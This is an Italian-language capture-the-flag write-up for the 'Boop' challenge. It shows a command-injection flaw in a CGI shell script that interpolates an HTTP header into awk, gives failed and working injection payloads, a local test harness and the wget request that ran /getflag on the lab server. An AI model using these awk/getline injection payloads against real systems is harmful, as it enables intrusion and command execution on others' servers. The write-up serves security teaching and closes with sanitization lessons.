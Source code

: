 # Boop CTF Challenge Write-up

## Introduzione

Questa challenge prevedeva lo sfruttamento di una vulnerabilità di command injection in uno script CGI per ottenere una flag presente sul server remoto. L'applicazione web, chiamata "Boop", esponeva un endpoint `/api/protocol` che si è rivelato vulnerabile.

## Ricognizione Iniziale

1.  **Analisi del `docker-compose.yml`**:
    La prima analisi ha rivelato la struttura dell'applicazione, con un servizio `boop` che utilizzava un'immagine custom e un servizio `backend`. È stata notata la variabile d'ambiente `HTTP_BASE_URL=https://10.42.0.2:38079` per il servizio `boop`.

2.  **Esplorazione del `Dockerfile`**:
    Il `Dockerfile` (`boop/src/Dockerfile`) mostrava che un file chiamato `getflag` veniva copiato in `/getflag` all'interno del container e gli venivano assegnati permessi di esecuzione (`chmod 111 /getflag`). Questo ha indicato che l'obiettivo era eseguire `/getflag` sul server.

    ```dockerfile
    COPY ./getflag /getflag
    RUN chmod 111 /getflag
    ```

3.  **Analisi degli script CGI**:
    La directory `boop/src/cgi-bin/` conteneva lo script `protocol`. L'analisi di questo script è stata cruciale.

    ```sh
    #!/bin/sh
    echo -e "Content-type: text/html\\n";

    PROTOCOL=$(awk "BEGIN {split(\\"$HTTP_BASE_URL\\", a, \\":\\"); print a[1]}");
    echo $PROTOCOL;
    ```
    Lo script prende la variabile d'ambiente `$HTTP_BASE_URL`, la passa ad `awk` per estrarre il protocollo (es. "http" o "https"), e poi stampa il risultato. La vulnerabilità risiede nel fatto che `$HTTP_BASE_URL` viene inserita direttamente in una stringa che `awk` esegue, permettendo l'iniezione di comandi `awk`.

## Identificazione della Vulnerabilità

L'endpoint `/api/protocol` eseguiva lo script `cgi-bin/protocol`. È stato possibile sovrascrivere la variabile `$HTTP_BASE_URL` inviando un header HTTP `Base-URL`. La vulnerabilità era una command injection all'interno del comando `awk`.

Il comando `awk` eseguito dallo script è:
```bash
awk "BEGIN {split(\\"$HTTP_BASE_URL\\", a, \\":\\"); print a[1]}"
```
Il valore fornito tramite l'header `Base-URL` viene interpolato direttamente in questa stringa, permettendo di manipolare il comando `awk`.

## Sfruttamento della Vulnerabilità

Sono stati necessari diversi tentativi per trovare il payload corretto. L'obiettivo era eseguire `/getflag` e far sì che il suo output venisse stampato nella risposta HTTP.

1.  **Tentativi Iniziali Falliti**:
    *   Uso di `system()` in `awk`: `Base-URL: test"; system("/getflag"); print "done'`. Questo eseguiva il comando ma non ne catturava l'output.
    *   Uso di backtick `` ` `` in `awk`: `Base-URL: test"; print `/getflag`; print "done'`. Non ha funzionato come previsto.
    *   Tentativi di chiudere il comando `awk` e iniziarne uno nuovo a livello di shell: questi non hanno funzionato a causa di come `awk` interpretava la stringa e gli escape.

2.  **Creazione di uno script di test locale (`test_script.sh`)**:
    Per debuggare l'injection `awk` più efficacemente, è stato creato uno script locale che mimava il comportamento dello script CGI:
    ```sh
    #!/bin/sh
    echo -e "Content-type: text/html\\n";

    HTTP_BASE_URL="$1"
    PROTOCOL=$(awk "BEGIN {split(\\"$HTTP_BASE_URL\\", a, \\":\\"); print a[1]}");
    echo $PROTOCOL;
    ```
    Questo ha permesso di testare i payload rapidamente.

3.  **La Svolta: `getline` e la corretta formattazione del payload**:
    Dopo vari test, si è capito che `getline` di `awk` poteva essere usato per catturare l'output di un comando eseguito tramite una pipe. Il problema principale era la corretta formattazione e l'escaping per far sì che il payload si integrasse correttamente nel comando `awk` esistente.

    Il test locale che ha funzionato è stato:
    ```bash
    ./test_script.sh 'test",a,":"); "echo hello" | getline result; print result; print a[1]; split("dummy'
    ```
    Output:
    ```
    Content-type: text/html

    hello test dummy
    ```
    Questo ha confermato che la struttura del payload era corretta:
    *   `test",a,":")` : Completa la sintassi della funzione `split` originale, fornendo `test` come valore per `$HTTP_BASE_URL`, `a` come nome dell'array, e `:` come delimitatore.
    *   `; "echo hello" | getline result; print result;` : Esegue `echo hello`, ne cattura l'output in `result` e lo stampa.
    *   `print a[1];` : Esegue la parte originale del comando `awk` (`print a[1]`), che stamperà "test".
    *   `split("dummy` : Inizia una nuova chiamata a `split` per assicurare che la sintassi `awk` rimanga valida (il `BEGIN {` originale viene chiuso implicitamente dal primo `;` che termina il blocco `BEGIN`).

4.  **Payload Finale**:
    Sostituendo `"echo hello"` con `"/getflag"`, il payload finale per l'header `Base-URL` è diventato:
    ```
    test",a,":"); "/getflag" | getline result; print result; print a[1]; split("dummy
    ```

5.  **Esecuzione dell'Exploit**:
    Il comando `wget` (o `curl`) è stato usato per inviare la richiesta con l'header manipolato:
    ```bash
    wget --header='Base-URL: test",a,":"); "/getflag" | getline result; print result; print a[1]; split("dummy' -O final_attempt.txt 'http://10.42.0.2:38079/api/protocol'
    ```

6.  **Ottenimento della Flag**:
    Il file `final_attempt.txt` conteneva l'output:
    ```
    CCIT{th4nk_y0u_4_w4171nG_BOOP!_:3__44038da7} test dummy
    ```

## La Flag

La flag ottenuta è: **`CCIT{th4nk_y0u_4_w4171nG_BOOP!_:3__44038da7}`**

## Conclusioni e Lezioni Apprese

*   **Sanitizzazione degli Input**: Questa challenge sottolinea l'importanza critica della sanitizzazione di qualsiasi input utente, specialmente quando viene utilizzato per costruire comandi da eseguire.
*   **Comprendere il Contesto di Esecuzione**: Capire come e dove l'input viene processato (in questo caso, all'interno di una stringa `awk`) è fondamentale per costruire un payload efficace.
*   **Testing Locale**: Creare un ambiente di test locale semplificato può accelerare significativamente il processo di debugging per vulnerabilità complesse come le command injection.
*   **Varietà di Tecniche di Injection**: Esistono molti modi per iniettare comandi, e spesso è necessario provare diverse tecniche (e.g., `system()`, backtick, pipe con `getline`) prima di trovare quella che funziona nel contesto specifico. 